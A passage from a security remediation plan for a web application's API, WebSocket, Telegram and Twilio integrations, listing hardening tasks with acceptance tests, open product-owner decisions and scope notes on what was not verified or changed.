| T6 | Protect REST routes; remove `user_email` | migrate `/autonomous/run`, `/improve*`, `/history`; services take `user_id`; agent registry validation | **User A token cannot read/write user B data** for each route; body `user_email` ignored; no global (`None`) fallbacks; legacy `/history/{email}` gone (404) |
| T7 | Task ownership | `owner_user_id`, ownership checks, bounds, caps | A cannot list/delete B's tasks; invalid interval rejected |
| T8 | WebSocket auth | first-message auth, origin check, bound principal, expiry/re-auth, limits | no auth → 4401; bad origin → 4403; token for A cannot act as B; `user_email` in frame ignored; expired token closes; oversized/rapid frames limited |
| T9 | Frontend client migration | `apiFetch` + WS client with token refresh; env-driven URLs; update four pages | e2e (Playwright optional): signed-out blocked; signed-in works; token refresh on 401 |
| T10 | Telegram secure linking | `telegram_link_tokens`, `POST /me/telegram/link-token`, redeem in `/start`, remove `/link`, private-chat filter, `/unlink`, invalidate legacy links | forged `/start base64(email)` rejected; expired/reused/other-user token rejected; no silent re-link; group chat ignored; token stored hashed |
| T11 | Twilio hardening | signature verification; `RecordingUrl` allow-list; per-call namespace | missing/invalid signature → 403; non-twilio host never fetched and **no credentials sent**; callers isolated |
| T12 | Data migration/backfill | `agent_memories.user_id`, link backfill, Redis key scheme + TTL | backfill matches only verified emails; idempotent |
| T13 | Rate limits + error hygiene | per-principal Redis limits, generic errors, disable docs in prod | 429 after threshold per user not global; no exception text in responses |
| T14 | Authorization seam + docs | `authorize()` stub, `Principal.roles`; update `flow.md`, add `decision.md` entries (D018+) | seam unit tests; docs reviewed |

Ordering rationale: T0–T2 foundations; T3–T5 build the verified boundary before any route depends on it; T6–T8 close Critical findings F1/F2/F3/F4/F5; T10–T11 close F6/F7; T12–T14 cleanup. **Interim recommendation:** because F1/F2/F5/F6/F7 are Critical and the production API appears publicly exposed, consider an immediate stop-gap (e.g. Twilio signature + host allow-list T11, Telegram `/link` disable) ahead of the full sequence — needs your decision (O7).

---

## 8. Open decisions (product-owner approval needed)

| ID | Question | Recommended default | Why |
|---|---|---|---|
| O1 | Auth approach | **Option C** (Next-minted short-lived JWT, backend-verified) | Works with WS and cross-origin, minimal change, forward-compatible with Option D |
| O2 | Token TTL / session lifetime | access JWT 10 min; NextAuth session 7 days | Limits exposure while avoiding frequent re-login |
| O3 | Signing algorithm | Asymmetric ES256/EdDSA (HS256 acceptable for M0.1 if you prefer fewer moving parts) | Backend can't mint tokens; key rotation via `kid` |
| O4 | Identity key | Internal `users.id` UUID + `auth_identities(provider, sub)`; email is an attribute | Emails change/vary in case; needed for workspaces |
| O5 | Legacy data | Keep memory by backfilling to users matched on verified email; **invalidate all legacy Telegram links**; abandon old Redis keys | Legacy links were forgeable; short-term data is ephemeral |
| O6 | New dependencies | Approve **PyJWT (+cryptography)** and **Alembic**; frontend needs none new (`jose` already present via `next-auth`) | Minimal, standard, no new framework |
| O7 | Interim stop-gap before full M0.1 | Yes: apply T11 and disable `/link` quickly, optionally restrict backend to known origins/IPs at the proxy | Critical issues are exploitable today |
| O8 | Telegram multi-chat | One chat ↔ one user; a user may link multiple private chats; private chats only | Prevents shared/group identity |
| O9 | Voice calling identity | Anonymous service principal per `CallSid`, no user data access, until phone-number verification exists | Removes cross-caller leakage; defers a feature |
| O10 | `GET /history` pagination default | `limit=50`, cursor on `created_at` | Prevents unbounded responses |
| O11 | Workspace header in M0.1 | Reserve `X-Workspace-Id`, reject non-empty until M0.2 | Prevents unenforced client assumptions |
| O12 | Production hosting of the API | Provide TLS/reverse-proxy details (WS upgrade, header forwarding) and confirm whether Vercel env has `NEXTAUTH_SECRET` | Not verifiable from the repo |

### Proposed decision-register entries (to append to `decision.md` only after approval)
D018 Identity verification via Next-minted JWT (Option C); D019 Internal user ID + auth identities; D020 Telegram nonce linking; D021 Twilio signature + host allow-list. Existing D001–D017 remain untouched.

---

## 9. Scope notes
- Not verified: production topology, TLS/proxy, Vercel env vars, deployed build vs. this commit, Redis/Postgres network exposure and auth, whether `authOptions` export breaks the build.
- No implementation, dependency, environment, database, or deployment change was made by this task.
